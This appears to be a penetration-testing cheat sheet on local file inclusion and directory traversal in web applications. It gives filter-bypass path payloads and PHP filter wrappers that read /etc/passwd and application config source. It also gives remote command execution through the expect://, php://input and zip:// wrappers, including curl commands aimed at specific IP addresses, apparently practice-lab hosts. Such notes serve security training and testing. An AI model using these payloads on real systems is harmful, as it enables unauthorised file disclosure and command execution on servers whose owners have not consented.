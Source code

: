 # File Inclusion / Directory Traversal

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[Blog](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) The Proc File System

## LFI

```
 /etc/passwd on Linux or C:\Windows\boot.ini on Windows
 #if input from parameters used as part of filenames
 we can bypass by adding /../ in the
  
 # if Blacklisting is not coded correctly
 ..././ and ....// would become ../ vice vers sa
 cat .?/.*/.?/etc/passwd.
 Bash allows for for the ? and * wildcards to be used as wildcard
 
 #On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. 
 The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
```

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found [here](https://www.php.net/manual/en/wrappers.php.php). The `php://` wrapper is enabled by default and interacts with IO streams.

PHP filter to convert file contents to Base64

```
 php://filter/read=convert.base64-encode/resource=/etc/passwd
 #we can get the source code and decode it
 curl http://134.209.184.216:32391/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```



### PHP filter to convert file contents to ROT13

```
php://filter/read=string.rot13/resource=/etc/passwd
```

### Command execution with PHP `Expect` wrapper

```
expect://id
```

#### Using PHP `Input` wrapper for command execution

```
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
```

### Command execution with the PHP `Zip` wrapper

```
zip://malicious.zip%23exec.php&cmd=id
```
